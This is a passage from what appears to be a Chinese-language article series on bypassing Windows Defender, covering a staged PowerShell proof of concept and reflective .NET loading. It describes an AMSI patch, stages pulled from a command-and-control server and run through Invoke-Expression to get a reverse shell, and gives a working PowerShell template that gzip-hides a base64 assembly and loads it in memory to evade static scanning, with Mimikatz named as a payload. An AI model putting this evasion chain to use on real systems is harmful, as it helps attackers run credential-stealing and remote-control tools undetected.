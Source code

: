   

这里有几件事要注意。首先，ref.txt 是一个简单的 PowerShell AMSI 绕过，它允许我们为当前的 PowerShell 进程修补内存中
AMSI 扫描。此外，在这种情况下，PowerShell 脚本的扩展名无关紧要，因为它们的内容将作为文本简单地下载并使用 Invoke-
Expression（IEX 的别名）调用。  
然后我们可以执行完整的 PoC，如下所示：  
在我们的受害者中执行Stage 0  
![]()  
受害者从我们的 C2 下载stages  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095503.png)  
在我们的攻击者服务器中获取反向 shell。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095505.png)  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095455.png)

 **09  反射加载**

  
您可能还记得第一部分《[Bypass Windows Defender的十种方式
0x1](http://mp.weixin.qq.com/s?__biz=MzU2NzY5MjAwNQ==&mid=2247485286&idx=1&sn=9f8e1399b0af14b2d3231674df69690a&chksm=fc9818eccbef91fa85d06066e7665e0b354d09c37c115bd01f540a52a365e4165270d634e660&scene=21#wechat_redirect)》，我们在修补内存中的
AMSI 后执行了 Mimikatz，以证明 绕过 Defender 的演示。这是因为 .NET 公开了
System.Reflection.Assembly API，我们可以使用它在内存中反射加载和执行 .NET
程序集（定义为“表示一个程序集，它是公共语言运行时应用程序的可重用、可版本控制和自描述构建块。”）。  
这当然对于攻击目的非常有用，因为 PowerShell 使用 .NET，我们可以在脚本中使用它在内存中加载整个二进制文件，以绕过 Windows
Defender 擅长的静态分析。  
脚本的一般结构如下：  
反射加载模板  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function Invoke-YourTool{    $a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String("yourbase64stringhere"))    $decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress)    $output = New-Object System.IO.MemoryStream    $decompressed.CopyTo( $output )    [byte[]] $byteOutArray = $output.ToArray()    $RAS = [System.Reflection.Assembly]::Load($byteOutArray)  
        $OldConsoleOut = [Console]::Out    $StringWriter = New-Object IO.StringWriter    [Console]::SetOut($StringWriter)  
        [ClassName.Program]::main([string[]]$args)  
        [Console]::SetOut($OldConsoleOut)    $Results = $StringWriter.ToString()    $Results  }
    
    
      
    

Gzip 仅用于尝试隐藏真正的二进制文件，因此有时它可能无需进一步的绕过方法即可工作，但最重要的一行是从
System.Reflection.Assembly .NET 类调用 Load
函数以将二进制文件加载到内存中。之后，我们可以简单地用“[ClassName.Program]::main([string[]]$args)”调用它的主函数  
因此，我们可以执行以下杀伤链来执行我们想要的任何二进制文件：  

  * AMSI/ETW 补丁。
  * 反射加载并执行程序集。
